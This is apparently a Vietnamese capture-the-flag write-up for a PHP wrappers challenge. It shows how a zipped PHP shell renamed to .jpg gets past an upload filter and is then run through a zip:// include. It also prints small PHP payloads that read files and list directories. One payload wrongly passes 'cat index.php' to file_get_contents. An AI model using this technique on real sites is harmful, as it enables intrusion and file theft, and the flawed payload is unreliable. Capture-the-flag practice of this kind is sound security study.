









bài này giới thiệu về wrappers mà cụ thể ở đây là PHP Wrappers

chỉ được upload jpg

và khi upload thành công sẽ được lưu ở

mất khá nhiều thời gian để mình tìm cách bypass upload, mục đích của mình là upload shell để có thể đọc file

sau khi thử tất cả các loại extension thì mình thấy có thể upload file zip lên. Các bước exploit như sau

1. tạo shell php sau đó zip lại 
2. đổi extension từ zip sang jpg để bypass filter
3.upload zip lên cho server giải nén
4.vào đường dẫn với `?page=zip://<path_to_zip>#<shell_name>`

thành công upload zip shell

truy cập vào nào

trôn vl, mình phải đổi lại tên shell, mình sẽ đặt ra `x.php`

system đã bị filter, nhưng trong php còn một số cách để đọc file mà, điển hình là `file_get_contents`

payload: `<?php
    $exp=file_get_contents('cat index.php');
    echo $exp;
?>`

flag không nằm ở index.php, căng nhỉ =)))

dùng scandir() để list xem thư mục làm việc hiện tại có file gì nhé ae

payload: `<?php
   $files=scandir('.');
   $files = array_diff($files,array('.','..'));
   foreach($files as $file){
    echo $file ."\n";
   }
?>`

đây rồi:v, cat flag ae tự làm nốt nhé

bài này khó vkl đối với mình =)))

`soong1002`

